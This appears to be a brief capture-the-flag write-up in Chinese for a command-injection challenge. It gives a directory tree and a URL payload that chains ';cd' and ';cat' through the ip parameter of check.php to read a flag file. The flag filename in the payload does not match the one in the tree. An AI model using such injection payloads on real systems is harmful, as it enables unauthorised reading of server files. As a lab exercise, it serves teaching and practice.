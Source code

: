 # 结构

```
./
|
--- index.php
--- check.php
--- flag_is_here
  |
  --- flag_11255342654.php   <--- flag is here
```



# 解法

可以先cd到指定目录然后再ls

e.g. check.php?ip=;cd%20flag_is_here;cat%20flag_187841542210631.php